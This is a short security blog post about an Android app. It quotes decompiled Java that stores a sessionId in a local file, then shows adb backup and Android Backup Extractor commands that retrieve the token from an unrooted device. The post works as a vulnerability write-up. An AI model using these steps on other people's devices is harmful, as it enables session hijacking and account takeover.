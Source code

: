 ```yaml
---
published: true
---
```

Continuing analysis of application from [previous post](https://mmmds.github.io/Android-Insecure-Communication-Man-In-The-Middle-Example/) I found that sessionId is held in local file.

    private static class SessionWriterTask extends AsyncTask<Context, Void, Void>
      {
        private String sessionId;

        public SessionWriterTask(String paramString1)
        {
          this.sessionId = paramString1;
        }

        protected Void doInBackground(Context... paramVarArgs)
        {
          try
          {
            paramVarArgs = paramVarArgs[0].openFileOutput("session.txt", 0);
            paramVarArgs.write(this.sessionId.getBytes());
            paramVarArgs.close();
            return null;
          }
          catch (IOException paramVarArgs)
          {
            Log.e("SessionWriterTask", "Cannot write", paramVarArgs);
          }
        }
      }
      
File's absolute path is /data/data/com.example.app/files/session.txt. Such file can be accessed without any problem on rooted device, but on unrooted one we don't have permission to read it. I found a solution which involves making a backup and then unpacking it on a computer.

	$ adb backup -noapk com.example.app

Device prompted me for password for backup (on unencrypted devices it's possible to skip it) and then backup.ab file appeared on my computer. 
I used [Android Backup Extractor](https://sourceforge.net/projects/adbextractor/) to decrypt and unpack backup.

	$ java -jar abe.jar unpack backup.ab backup.tar b4ckupp4ssw0rd
    $ tar -xf backup.tar
   
After this step I was able to read content of session.txt file and get sessionId.

	$ cat apps/com.example.app/f/session.txt
    A163B20D3696AF6185C07CD62EBA4B05
